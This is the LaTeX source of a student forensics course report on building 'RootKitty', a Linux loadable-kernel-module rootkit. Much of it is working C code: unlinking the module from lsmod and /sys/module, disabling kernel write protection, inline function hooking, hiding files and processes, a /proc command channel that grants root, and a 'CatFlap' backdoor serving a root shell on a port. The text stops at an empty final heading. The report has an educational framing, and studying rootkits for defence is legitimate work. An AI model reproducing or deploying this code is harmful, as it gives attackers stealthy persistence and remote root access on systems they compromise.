% COMP6845 - Extended Forensics Research Project
%
% Name: Clancy Davidson Rye
% ZID:  z3462807
%
% This file contains the .tex for my report on LKM rootkits.
%
% Written on the 22th of October, 2017.
% -=>> LIVING ON THE EDGE <<=-

%----------------------------------------------------------------------------------------
%   PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------
\documentclass[11pt]{article}

\usepackage[english]{babel}
\usepackage[utf8]{inputenc}

\usepackage[margin=2cm]{geometry} % Required to control margin geometry
\usepackage{graphicx}             % Required to display images
\usepackage{epstopdf}             % Required to display .eps files
\usepackage{fancyhdr}             % Required for custom headers and footers
\usepackage{lastpage}             % Required to determine last page for footer
\usepackage{tocloft}              % Required to dotfill contents page
\usepackage{hyperref}             % Required to create hyperlinks from contents page
\usepackage{colortbl}             % Required for colored tables
\usepackage{tabularx}             % Required to fix tables to specific widths
\usepackage{titlesec}             % Required to nest table of contents 4 levels deep
\usepackage{enumitem}             % Required to nest table of contents 4 levels deep
\usepackage{booktabs}             % Required for booktables (prettier tables)
%\usepackage{solarized-dark}
\usepackage{upquote}
\usepackage{pagecolor}
\usepackage{textcomp}
\usepackage[normalem]{ulem}
\usepackage{transparent}
\usepackage{eso-pic}
\usepackage{minted}
\usepackage{xpatch,letltxmacro}
\usepackage[lastpage,user]{zref}

\LetLtxMacro{\cminted}{\minted}
\let\endcminted\endminted
\xpretocmd{\cminted}{\RecustomVerbatimEnvironment{Verbatim}{BVerbatim}{}}{}{}


% Setup the headers and footers
\pagestyle{fancy}
\fancyhf{}  

\renewcommand\footrulewidth{0.4pt}                       % Size of footer rule
\renewcommand\headrulewidth{0pt}                         % Size of header rule
\rfoot{Page \thepage \hspace{1pt} of \zpageref{LastPage}} % Page x of y footer

% Configure hyperlink properties
\hypersetup{                                            
    colorlinks, 
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}

% Set up table of contents + define new subsubsubsection type
\setcounter{secnumdepth}{4}
\titleformat{\paragraph}
{\normalfont\normalsize\bfseries}{\theparagraph}{1em}{}
\titlespacing*{\paragraph}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\titleclass{\subsubsubsection}{straight}[\subsection]
\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
  {\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
  {3.25ex \@plus1ex \@minus.2ex}%
  {-1em}%
  {\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
  {3.25ex \@plus1ex \@minus .2ex}%
  {-1em}%
  {\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother

\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}

% Dotfill table of contents
\renewcommand{\cftsecleader}{\cftdotfill{\cftdotsep}}       

% Define commands
\newcommand{\HRule}{\rule{\linewidth}{0.2mm}}               % Make macro for ruling lines
\newcommand{\tabitem}{~~\llap{\textbullet}~~}               % Can't even remember - might be orphan. Don't want to take out for fear of breaking things. 
\newenvironment{bottompar}{\par\vspace*{\fill}}{\clearpage} % For paragraph to bottom of page

% Don't indent paragraphs
%\setlength{\parindent}{0pt}

\definecolor{HelloKittyPink}{HTML}{FDA5CF}
%----------------------------------------------------------------------------------------
%   TITLE PAGE                                          
%----------------------------------------------------------------------------------------
\begin{document}
\pagecolor{HelloKittyPink!30}
\begin{titlepage}
\center

%----------------------------------------------------------------------------------------
%   TITLE PAGE - HEADING                                
%----------------------------------------------------------------------------------------
\textsc{\LARGE COMP6845: Extended Digital Forensics \& Incident Response}\\[1.5cm]         % Name of institution

%----------------------------------------------------------------------------------------
%   TITLE PAGE - TITLE                                  
%----------------------------------------------------------------------------------------

\HRule \\[0.4cm]
\textsc{\Large Hello RootKitty}\\[0.5cm]   % Major heading EG. course name
\textsc{\large My Adventures with LKM Rootkits}\\[0.5cm]  % Minor heading EG. course title
\HRule \\[2.5cm]    

%----------------------------------------------------------------------------------------
%   TITLE PAGE - LOGO 
%----------------------------------------------------------------------------------------


\includegraphics[scale=1]{logo.png}            % Supervisor's Name

%----------------------------------------------------------------------------------------
%   TITLE PAGE - AUTHOR
%----------------------------------------------------------------------------------------

\begin{bottompar}                % Anchor at the bottom of the page
\begin{minipage}{0.4\textwidth}  % Use minipage to take 40% of screen and flush left
\begin{flushleft} \large
\emph{Authors:}\\
Clancy Rye (z3462807)    % Author name
\end{flushleft}
\end{minipage}
~                                % Don't remove this! Not a typo!
\begin{minipage}{0.4\textwidth}
\begin{flushright} \large        % Use a minipage to flush the other 40% to the right
%\emph{Supervisor:} \\
%
\includegraphics[scale=.4]{logo.jpg}            % Supervisor's Name
\end{flushright}
\end{minipage}\\[1cm]                           % Spacing below authors
%----------------------------------------------------------------------------------------
%   TITLE PAGE - DATE
%----------------------------------------------------------------------------------------

{\large \today}                  % The date right now
\end{bottompar}
\vfill                           % Fill the rest of the page with whitespace
\end{titlepage}

%----------------------------------------------------------------------------------------
%   TABLE OF CONTENTS
%----------------------------------------------------------------------------------------
\tableofcontents                % Insert ToC
\thispagestyle{empty}           % Do not render a header/footer for this page.
\newpage

\hypersetup{                                            
    colorlinks, 
    citecolor=blue,
    filecolor=blue,
    linkcolor=blue,
    urlcolor=blue
}

%----------------------------------------------------------------------------------------
%   INTRODUCTION
%----------------------------------------------------------------------------------------
\section{Adopting a RootKitty (Introduction)}

Malware has always been an area of avid fascination for me. It's an unending game of cat and mouse where each side needs to continually try to outsmart one another. I have always loved the challenge of trying to subvert rules in weird and wacky ways and my desire to answer the question of `I wonder whether I'd be able to do this..' is what ended up driving me into programming as a child and, eventually, to pursue a degree in Computer Science as a young adult.\\

It goes without saying, then, that when introduced to the notion of pursuing a research topic - I would \textit{have} to do something malware related. Developing a rootkit from the ground up is something I've always wanted to do but have never gotten around to due to the \textit{tyrannical oppression} of uni deadlines. This project presented the perfect opportunity for me to double dip on doing something fun \textbf{and} get marks for it!\\

%----------------------------------------------------------------------------------------
%   INTRODUCTION - WHY A ROOTKIT?
%----------------------------------------------------------------------------------------
\subsection{Why a Rootkit?}
As touched on prior, I've been wanting to write a rootkit for quite some time now. There are a couple of reasons for this. To me, rootkits represent a unique and interesting class of malware - the idea of subverting the system itself to avoid detection is an incredibly unique and fun mechanism. It also highlights a common oversight I think a lot of people have when it comes to security. I often hear about the `asymmetry of attack and defense', the idea that an attacker only needs to find one flaw in a system whereas the attacker needs to protect the entirety of a system. Whilst true, a lot of people forget that it works both ways. Once having compromised a system, an attacker only needs to have one thing noticed before the gig is up. Rootkits aim to offset this and increase the time an attacker is able to stay on a system by crippling a defenders ability to detect that they've been compromised. This is cool enough to justify itself.\\

I would like to note that there are many different types of rootkits - I will be focusing solely on Linux LKM rootkits.

%----------------------------------------------------------------------------------------
%   INTRODUCTION - ISN'T THIS SUPPOSED TO BE A REPORT?
%----------------------------------------------------------------------------------------
\subsection{Isn't This Supposed to be a Report?}
Yes! With that said, I'd like others to be able to learn and take things from my report. I think rootkits are fascinating and I'd like to encourage other students to try their hand at developing one for themselves. This report will outline some of the basic techniques implemented by my rootkit, RootKitty, as well as explore the rationale behind my design decisions.\\

A full, heavily documented copy of the source code will be available alongside this report. Hopefully this should be enough for people to get their feet wet!\\

\newpage

%========================================================================================

%----------------------------------------------------------------------------------------
%   INSERTION
%----------------------------------------------------------------------------------------
\section{Housetraining Your RootKitty (Insertion)}

%----------------------------------------------------------------------------------------
%   INSERTION - INSERTION VECTOR - LRMS
%----------------------------------------------------------------------------------------
\subsection{Insertion Vector - LKMs}
Linux provides us a fantastic insertion vector via “Loadable kernel modules” (\textbf{LKM}s). A kernel module is essentially a piece of code that can be loaded and unloaded into the kernel on demand. They’re designed to give us the ability to extend a system without having to recompile our kernel or reboot our computer each time we'd like to do so. This is commonly used for things like device drivers and other things of that ilk.\\

It also presents itself as a way to gain leverage over a system. If we compile our rootkit as a kernel module and insert it, we are able to run code within the kernel with little to no effort whatsoever. Once our rootkit is loaded into the kernel it has free reign to do whatever it wants, which is where things start getting a little spicy.\\

Granted, in order to load/unload a kernel module you must have root priviledges, it's likely that insertion of the rootkit would have to be part of an exploit chain - this is left as an exercise to the reader! For our purposes, we will simply be loading the module as root, which is as simple as:
\mintinline{bash}{sudo insmod RootKitty.ko}\\

I also recommend running \mintinline{bash}{dmesg -wH} in order to view rootkit debugging messages to check that insertion suceeded.

%----------------------------------------------------------------------------------------
%   INSERTION - COVERING OUR TRACKS
%----------------------------------------------------------------------------------------
\subsection{Covering Your Tracks - Hiding the Kernel Module}
Once our rootkit is loaded as a kernel module, the first thing we'd like to do is to remove any indicators that it's currently loaded and running. We do this in \mintinline{c}{root_kitty_init}, which is the module initialisation routine. Fortunately for us, there are only two main locations we need to address: \mintinline{text}{/proc/modules} \& \mintinline{text}{/sys/module}.\\

The former, \mintinline{text}{/proc/modules}, is a list of loaded modules, their state and memory addresses - it is what \mintinline{bash}{lsmod} uses to gather information about what's currently loaded and running. In order to deal with this we can simply unlink our module from the list:
\begin{minted}{c}
// Hide from lsmod by unlinking our module from /proc/modules.
// (next->prev = prev & prev->next = next)
list_del_init(&__this_module.list);
\end{minted}

The latter, \mintinline{text}{/sys/module}, is an interface to kernel modules, where each directory contained within corresponds to a kernel module. Again, this is relatively trivial to deal with as we can simply unlink the associated entry:
\begin{minted}{c}
// Remove our module information from /sys/module/ by unlinking entry.
kobject_del(&THIS_MODULE->mkobj.kobj);
\end{minted}

After this, most conventional\footnote[1]{Let's be real there are likely other ways to detect the presence of a kit, but this should fool the basic methods! If I'm wrong - please do let me know so I can patch it in. ;)} commands will not be able to detect that the rootkit is loaded. After ensuring that it works, I would highly recommend commenting out the \mintinline{c}{hide()} routine as otherwise you will be unable to remove your rootkit (\mintinline{c}{sudo rmmod RootKitty} will fail as it's unable to find the module anymore). This makes testing difficult and tedious as you'll need to load/unload the rootkit several times during development. The last thing you want to do to is reboot your computer each time you'd like to test new code.

%----------------------------------------------------------------------------------------
%   EXPLOITATION
%----------------------------------------------------------------------------------------
\section{Teaching Your RootKitty New Tricks (Exploitation)}

%----------------------------------------------------------------------------------------
%   EXPLOITATION - HOOKING THE SYSCALL TABLE
%----------------------------------------------------------------------------------------
\subsection{Hooking the Syscall Table}
A classic technique employed by rootkits is to hook the syscall table. If our rootkit has access to the system call table, it can replace the function pointers contained within with pointers to modified versions crafted for our dastardly purposes. For example: replacing the read system call with a version that returns 0 if it detects a `protected' filename in the userland buffer but otherwise acting normally. (Which would have the effect of hindering the system from detecting the presence of that file).\\

However, I decided to not employ syscall hooking when developing RootKitty. There are several reasons for this:
\begin{itemize}
\itemsep0em
\item \textbf{It's loud}: Since kernel 2.4.x, the syscall table symbol has stopped being exported, which means we need to find the offset of the table manually. This process is typically done through brute force and is pretty loud, which is sub-optimal given our desire to be stealthy.
\item \textbf{It's obvious}: The vast majority of rootkits employ syscall hooking, which is trivially detectable and a well known technique. Defenders will be anticipating that the syscall table will be targeted.
\item \textbf{It's clumsy}: As we're hooking the syscall table, we're limited to just that - modifying syscalls. Due to the prevalence of syscalls, this is a \textit{very} broad stroke and it can be difficult to achieve a niche objective without also impacting several other things. Given our prior example of hooking read, if we were to protect a common word this would have several unintended effects, like not rendering terminal output correctly. Again, given our desire for stealth, we would prefer a finer brush so we minimise the impact we have on a system.
\end{itemize}

%----------------------------------------------------------------------------------------
%   EXPLOITATION - INLINE FUNCTION HOOKING
%----------------------------------------------------------------------------------------
\subsection{Inline Function Hooking}
Rather than hooking the syscall table, RootKitty uses inline ASM hooking to hijack execution from the system. This technique entails replacing the prologue bytes of a target function in order to transfer execution to our replacement function. Bear in mind we'll need to retain the ability to call the original function (to maintain functionality), so we'll need to do some housekeeping to allow us the ability to patch/unpatch these functions.\\

To simplify this process, all of data required to perform our hook will be stored in a struct called \mintinline{c}{asm_hook}, which is defined in \mintinline{c}{AsmHooks.h}:
\begin{minted}{c}
/** 
 * Struct used to store information required to patch and unpatch our hooks.
 * This includes:
 *     - Pointer to the original function. (Function before being patched).
 *     - Pointer to patched function.      (Function after being patched).
 *     - ASM code for original function.   (So we can fix it later).
 *     - Pointer to linked list holding our hooks.
 */
struct asm_hook {
    void *original_function;
    void *modified_function;
    char original_asm[sizeof(ASM_HOOK_CODE)-1];
    struct list_head list;
};	
\end{minted}
These hooks will be stored in a global linked list \mintinline{c}{asm_hook_list} as this allows us to easily add and remove our hooks.

Creation of a new \mintinline{c}{asm_hook} has been abstracted to the function \mintinline{c}{asm_hook_create}:
\begin{minted}{c}
/**
 * Patches machine code of a function so that it would call our function.
 * Keeps record of the original function and its machine code so that it could
 * be unpatched and patched again later.
 *
 * @param original_function Function to patch
 * @param modified_function Function that should be called
 * @return true on success, false on failure.
 */
int asm_hook_create(void *original_function, void *modified_function) {

    // Create asm_hook struct.
    struct asm_hook *h = kmalloc(sizeof(struct asm_hook), GFP_KERNEL);

    if (!h) return FALSE;

    // Then initialise it accordingly.
    h->original_function = original_function;
    h->modified_function = modified_function;
    memcpy(h->original_asm, original_function, sizeof(ASM_HOOK_CODE)-1);
    list_add(&h->list, &asm_hook_list);

    // Now we've got all the info we need, perform the hook.
    _asm_hook_patch(h);

    return TRUE;
}
\end{minted}

Patching the prologue bytes has been abstracted into \mintinline{c}{_asm_hook_patch}:
\begin{minted}{c}
/**
 * Patches the prologue bytes of the original function to call another function.
 * This function should not be called directly.
 *
 * @param h A pointer to the asm_hook object to perform patching on.
 */
void _asm_hook_patch(struct asm_hook *h) {

    // Disable write protection as otherwise we'll generate an oops.
    disable_wp();

    // Overwrite prologue bytes to call our function.
    memcpy(h->original_function, ASM_HOOK_CODE, sizeof(ASM_HOOK_CODE)-1);
    *(void **)&((char *)h->original_function)[ASM_HOOK_CODE_OFFSET] = h->modified_function;

    // Restore write protection. Keep Australia beautiful.
    enable_wp();
}
\end{minted}
It's important to draw attention to both \mintinline{c}{disable_wp} \& \mintinline{c}{enable_wp}. When we perform our function patching, we are overwriting memory that's within a .TEXT section - which is read only. You may say ``Hey, you can't do that! You're not allowed to write to something that's read only!". You're goddamn right. But we're running in the kernel and the only rule is that there are no rules, we can simply disable write protection until we've performed our patch. Be aware that, on SMP (multi-processor) systems, there is the potential for a race condition here, so we must account for that also.

\begin{minted}{c}
// Imported from AsmHooks.h
#define FORCE_INLINE __attribute__((always_inline)) inline

/**
 * Set WP bit in cr0 register to 0 to disable write protection on the CPU. (Allowing us
 * to overwrite function prologue without causing an oops.
 *
 * Note: It is imperative we take care to avoid race conditions in SMP systems,
 * hence the locking!
 */
FORCE_INLINE void disable_wp(void) {
    preempt_disable();
    write_cr0(read_cr0() & (~ 0x10000));
}

/**
 * Restores WP bit in cr0 register to restore write protection after we've changed it.
 */
FORCE_INLINE void enable_wp(void) {
    preempt_enable();
    write_cr0(read_cr0() | 0x10000);
}
\end{minted}

Another thing we must be mindful of is the CPU architecture of the target system, as this will change our required shellcode, \mintinline{c}{ASM_HOOK_CODE}:
\begin{minted}{c}
// For 32 bit machines:
#if defined __i386__
    // push 0x00000000, ret
    #define ASM_HOOK_CODE "\x68\x00\x00\x00\x00\xc3"
    #define ASM_HOOK_CODE_OFFSET 1

// For 64 bit machines:
#elif defined __x86_64__
    // For 64 bit machines there is no push immediate so we have to perform a
    // mov + jmp.
    // mov rax 0x0000000000000000, jmp rax
    #define ASM_HOOK_CODE "\x48\xb8\x00\x00\x00\x00\x00\x00\x00\x00\xff\xe0"
    #define ASM_HOOK_CODE_OFFSET 2
#endif
\end{minted}
Defining our hook code in this manner allows the rootkit to remain relatively device-agnostic, which is pretty neato mosquito. As ASM is quite flexible, we could also achieve the above result in many different ways, which could help us evade detection.
\newpage


In summary, our general workflow when hooking a function is:
\begin{enumerate}
	\item Create asm\_hook object:
	\begin{itemize}
		\item Save pointer to original function.
		\item Save pointer to modified function.
		\item Save a copy of the ASM code we will be overwriting.
	\end{itemize}
	\item If created successfully, add created asm\_hook object to asm\_hooks\_list.
	\item Perform prologue patching:
	\begin{itemize}
		\item Disable write protection on the CPU.
		\item Overwrite prologue bytes with small shellcode buffer of `push dword 0; ret'.
		\item Copy across pointer to our modified function over zero'd out argument.
		\item Restore write protection on the CPU.
	\end{itemize}
\end{enumerate}

Once patched, all calls to the target function will instead go to our replacement function. In order to remove the hook, we simply undo the work we've done by restoring the original ASM we wrote over.
\newpage
%----------------------------------------------------------------------------------------
%   EXPLOITATION - IDENTIFYING THE SPICIEST FUNCTIONS TO HIJACK
%----------------------------------------------------------------------------------------
\subsection{Identifying the Spiciest Functions to Hijack}
Now that we've established a method that allows us to arbitrarily hijack functions we have much more granular control over what our kit influences. Given that we'd like our rootkit to have the ability to hide files and processes, we need to identify which functions to hook in order to do so. Fortunately, because of virtual filesystems, Linux makes this relatively easy for us as it associates a \mintinline{c}{struct file_operations}\footnote[2]{See include/linux/fs.h} with each file system it supports. These structs contain pointers to functions used for basic file operations (reading, writing, etc). By obtaining these pointers dynamically we gain the ability to hook file operations for multiple types of filesystems in one fell swoop.\\

For us to hide files, we draw our attention to the\\ \mintinline{c}{iterate(struct file *file, struct dir_context *context)}\footnote[3]{This superseceded readdir from kernels $>=$ 3.11} method. To summarise, iterate reads the directory entries of an underlying directory (specified by the file parameter) and fills up the directory context (specified by the context parameter) using the filldir method (contained within context). For us to hide files, we can simply need to hook iterate (for the fs mounted at `/') and modify the filldir method so it filters any `protected' files from its results.\\

Luckily for us Linux's interface to processes, procfs, also happens to be a VFS. This means we can actually hook it using the exact same method - the only difference being that we're instead operating on the filesystem mounted at `/proc'.\\

Obtaining a pointer to the \mintinline{c}{file_operations} struct for a filesystem mounted at a particular path has been abstracted into \mintinline{c}{get_fop}:
\begin{minted}{c}
/**
 * Given a filepath, returns a pointer to its file_operations struct.
 *
 * @param path The filepath to retrieve the f_op struct pointer from.
 * @return A pointer to an f_op struct for path if it exists, NULL otherwise.
 */
struct file_operations *get_fop(const char *path) {
    struct file *f;

    if ((f = filp_open(path, O_RDONLY, 0)) == NULL) return NULL;

    struct file_operations *ret = (struct file_operations *) f->f_op;
    filp_close(f, 0);

    return ret;
}
\end{minted}

\newpage


%----------------------------------------------------------------------------------------
%   EXPLOITATION - HIDING FILES
%----------------------------------------------------------------------------------------
\subsection{Hiding Files}
As touched on prior, we can hide files by hooking the \mintinline{c}{iterate} file operation for the filesystem mounted at `/' and tampering with how the \mintinline{c}{context->filldir} method populates the \mintinline{c}{context} parameter. This is done by within \mintinline{c}{hijack_vfs}:
\begin{minted}{c}

/**
 * Hijacks the VFS in order to gain control over the filesystem. For our
 * purposes this will largely be used to hide files in plain sight. (The kit
 * itself and all of its friends).
 *
 * This function works by finding the function pointer to the iterate method of
 * the root directory and performing an inline hook to modify its prologue
 * bytes to transfer execution to our replacement filldir routine.
 */
void hijack_vfs(void) {

    // Check we're operating on a 3.1.1 kernel and above.
    #if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 1, 1)

        // Perform our dastardly switcheroo of the root iterate function.
        asm_hook_create(get_fop("/")->iterate, root_iterate);

    #endif
}
\end{minted}

Where \mintinline{c}{root_iterate} is defined as:
\begin{minted}{c}
/**
  * Replacement function for "/" iterate, which is the successor of readdir for
  * kernels >3.11!
  *
  * Invokes our filldir function to manipulate results returned. Afterwards
  * unpatches iterate and calls it to obtain the real results, which it returns
  * after re-applying our patch to iterate. (So we can continue manipulating
  * filldir). In short it:
  *     1). Calls our own filldir to manipulate results.
  *     2). Unpatches iterate, calls it and saves its return value to maintain
  *         functionality.
  *     3). Reapplies patch to iterate so we can intercept next call. Goto 1.
  *
  * @return Normal iterate values, unless we detect a protected name, in which
  * case we return 0.
  */
int root_iterate(struct file *file, struct dir_context *context) {
    original_root_filldir = context->actor;
    *((filldir_t*)&context->actor) =  root_filldir;

    int (*original_iterate)(struct file *, struct dir_context *);
    original_iterate = asm_hook_unpatch(root_iterate);
    int ret = original_iterate(file, context);
    asm_hook_patch(root_iterate);

    return ret;
}

/**
  * Replacement function for "/" filldir. Checks to see whether any file names
  * from our global file_list are within the buffer. If so, we return 0 to
  * pretend the file does not exist. Otherwise we just pass the arguments to
  * the original filldir function and return its results to preserve
  * functionality.
  *
  * @return 0 if we detect a 'protected' file name, otherwise returns 'normal'
  * filldir results with the same parameters.
  */
static int root_filldir(void * context, const char *name, int namelen, loff_t
                        offset, u64 ino, unsigned int d_type) {
    struct file_entry *f;

    // If the buffer contains any names within our list, return 0.
    list_for_each_entry(f, &file_list, list) {
        if (strcmp(name, f->name) == 0) {
            return 0;
        }
    }

    // Otherwise return 'normal' results.
    return original_root_filldir(context, name, namelen, offset, ino, d_type);
}
\end{minted} 

%----------------------------------------------------------------------------------------
%   EXPLOITATION - HIDING PROCESSES
%----------------------------------------------------------------------------------------
\subsection{Hiding Processes}
Hiding processes is almost identical to our method of hiding files, albeit we are hooking the filesystem mounted at `/proc' rather than `/'. For the sake of brevity I've only included the replacement filldir method:
\begin{minted}{c}
/**
 * Replacement function for "/proc" filldir. Checks to see whether any PIDs
 * from our global pid_list are in the buffer. If so, we return 0 to pretend
 * the PID does not exist. Otherwise we just pass the arguments to the original
 * filldir function and return its results to preserve functionality.
 *
 * @return 0 if a 'protected' pid is detected, otherwise returns 'normal'
 * filldir results.
 */
static int proc_filldir(void * context, const char *name, int namelen, loff_t
                        offset, u64 ino, unsigned int d_type) {

    struct pid_entry *p;

    // If buffer contains any PIDs from our list, return 0.
    list_for_each_entry(p, &pid_list, list) {
        if (simple_strtoul(name, NULL, 10) == p->pid) {
            return 0;
        }
    }

    // Otherwise return 'normal' results.
    return original_proc_filldir(context, name, namelen, offset, ino, d_type);
}
\end{minted}

One thing to note is that \mintinline{c}{root_filldir} \& \mintinline{c}{proc_filldir} operate on \mintinline{c}{file_list} \& \mintinline{c}{pid_list} respectively. These are simply global lists containing the file names and PIDs we'd like to filter out of our results. A list was chosen as it allows us to add, remove and iterate through entries easily.
\newpage
%----------------------------------------------------------------------------------------
%   C2
%----------------------------------------------------------------------------------------
\section{Communicating With Your RootKitty (Command \& Control)}
Given our newfound ability to arbitrarily hide files \& processes using our spicy hooks, we'd like a way to command our rootkit to do so! Admittedly as I was running a little low on time so I sorta cheaped out and hastily implemented C2. PlzForgive.

\subsection{Establishing Channel - Hooking INode Lookup}
RootKitty handles command and control by hooking inode lookup on `/proc'. If a process looks up a certain \mintinline{c}{SECRET_KEY} (`HelloKittyIsTheBest') it will fetch a command number from the full lookup name, in the form `HelloKittyIsTheBest-CMD\_NUM' and execute the specified command. The hooking mechanism is the same as when we hooked iterate, except we're instead hooking the `lookup' method specified by the \mintinline{c}{struct inode_operation} for `/proc':

\begin{minted}{c}
/**
 * Given a filepath, returns a pointer to its inode_operations struct.
 *
 * @param path The filepath to retreive the i_op struct pointer from.
 * @return A pointer to an i_op struct for path if it exists, NULL otherwise.
 */
struct inode_operations *get_iop(const char *path) {
    struct file *f;

    if ((f = filp_open(path, O_RDONLY, 0)) == NULL) return NULL;

    struct inode_operations *ret = (struct inode_operations *) f->f_path.dentry->d_inode->i_op;
    filp_close(f, 0);

    return ret;
}

/**
 * Hijacks the procfs in order to receive commands from our backdoor client. In
 * this case we're using inode lookup in "/proc" as our command channel.
 *
 * This function works by finding the function pointer to the lookup method of
 * the "/proc" directory and performing an inline hook to modify its prologue
 * bytes to transfer execution to our replacement lookup routine.
 */
void unlock_catflap(void){

    // Check we're operating on a 3.1.1 kernel and above
    #if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 1, 1)

        // Perform our dastardly switcheroo of proc->lookup with our own.
        asm_hook_create(get_iop("/proc")->lookup, proc_lookup);
    #endif
}
\end{minted}
As of writing, there is only one command which is to hide an accompanying backdoor `CatFlap' and grant it root.

\begin{minted}{c}
/**
 * Hijack'd lookup which we're using as a comm channel. :^)
 */
struct dentry *proc_lookup(struct inode *i, struct dentry *d,unsigned int flag) {

    // Lock current task to avoid race conditions.
    task_lock(current);

    // Convert ulong pid to string because my architecture sucks and I'm out of time :^)
    char s_pid[64];
    sprintf(s_pid, "%lu", current->pid);

    // If the current inode has the secret key, fetch the command from it and process it.
    if(strncmp(SECRET_KEY, d->d_name.name, strlen(SECRET_KEY))==0) {

        printk("root_kitty: Secret key detected, fetching command.\n");
        char *cmd = get_cmd(d->d_name.name);
        printk("root_kitty: \t`->Received command: %s\n", cmd);

        // HIDE_BD: If backdoor knocks, give it root and hide its file + PID.
        if (strncmp(cmd, HIDE_BD, strlen(cmd)) == 0){

            // Elevate process to root.
            printk("root_kitty: Granting CatFlap root\n");
            struct cred *orig_cred = get_current_cred();
            struct cred *root_cred = prepare_creds();

            root_cred->uid.val   = 0;
            root_cred->gid.val   = 0;
            root_cred->euid.val  = 0;
            root_cred->egid.val  = 0;
            root_cred->suid.val  = 0;
            root_cred->sgid.val  = 0;
            root_cred->fsuid.val = 0;
            root_cred->fsgid.val = 0;
            commit_creds(root_cred);

            // Hide the backdoor by adding its PID and file to our lists.
            printk("root_kitty: \tAdding %u to PID list\n", current->pid);
            pid_add(s_pid);

            printk("root_kitty: \tAdding %s to file list\n", current->comm);
            file_add(current->comm);
        }
    }
    task_unlock(current);

    // Nothing to see here, officer.
    original_proc_lookup = asm_hook_unpatch(proc_lookup);
    struct dentry *ret = original_proc_lookup(i, d, flag);
    asm_hook_patch(proc_lookup);

    return ret;
}
\end{minted}

\subsection{Installing Your CatFlap}
I wrote a simple backdoor to accompany RootKitty called CatFlap™. CatFlap™ first obtains root and hides itself by knocking with the \mintinline{c}{HIDE_BD} command, after which it listens on localhost:9447 for any authorised cats. As this is 2017, CatFlap™ uses state of the art voice biometrics to keep your home secure from unauthorised cats, listening for the passphrase ``Meow!".\\

If it detects the secure™®\footnote[4]{(Patent pending)} passphrase it will give your cat a root shell. 
\begin{minted}{c}
/**
 * Escalates the backdoor process to root by touching super secret file.
 */
void obtain_root(void) {

    // Get root for current process.
    int fd = open(SUPER_SECRET_KEY"-"GET_ROOT, O_RDWR, 0);
    close(fd);
}

/**
 * Starts listening on localhost on PORT for commands to send to the rootkit.
 */
void listen_for_commands(void) {

    // Try to create a new socket, exit if we fail to do so.
    int listen_fd = socket(AF_INET, SOCK_STREAM, 0);
    if (listen_fd < 0) exit(1);

    // Create a new socket address, 0 it out and then initialise.
    struct sockaddr_in s_addr;
    memset(&s_addr, 0, sizeof(s_addr));
    s_addr.sin_family      = AF_INET;
    s_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    s_addr.sin_port        = htons(PORT);

    // Bind our socket to its address, exit if we fail to do so.
    if (bind(listen_fd, (struct sockaddr *)&s_addr, sizeof(s_addr)) < 0) exit(1);

    // Start listening on our socket, exit if we fail to do so.
    if (listen(listen_fd, 5) < 0) exit(1);

    int i, connfd;
    pid_t pid;
    char buf[MAXLINE];
    struct sockaddr_in c_addr;
    socklen_t c_size = sizeof(c_addr);

    // Listen indefinitely for commands.
    while(1) {
        connfd = accept(listen_fd, (struct sockaddr *)&c_addr, &c_size);
        if((pid = fork()) == 0) {

            // If child process creates its own child process, end it.
            if((pid = fork()) > 0) {
                exit(0);
            // Otherwise deal with the incoming connection.
            // For now we do not offer any interaction w/ the kit - just
            // getting a root shell.
            } else if(!pid) {

                close(listen_fd);

                // Print out greeting from guard kitten and await response.
                char *s = "Kittens only!\n";
                write(connfd, s, strlen(s));
                memset(buf,0, MAXLINE);
                read(connfd, buf, MAXLINE);

                // If passcode is incorrect, exit.
                if (strncmp(buf,PASSWD,strlen(PASSWD)) !=0){
                    close(connfd);
                    exit(0);
                // Otherwise, congratulate them and give them a root shell. :^)
                }else {
                    s = "Me-wow! Have a shell.\n";
                    write(connfd, s, strlen(s));

                    dup2(connfd,0);
                    dup2(connfd,1);
                    dup2(connfd,2);
                    execl("/bin/sh", "/bin/sh", (char *) 0);
                }
            }
        }else if(pid > 0){
            close(connfd);

            // Wait for child process
            if (waitpid(pid, NULL, 0) != pid) exit(1);
        }else {
            exit(1);
        }
    }
}

int main(int argc, char *argv[]) {

    // Get root for current process and hide the backdoor.
    obtain_root();

    // Then listen for commands.
    listen_for_commands();
}
\end{minted}
\subsection{Pocs or GTFO}

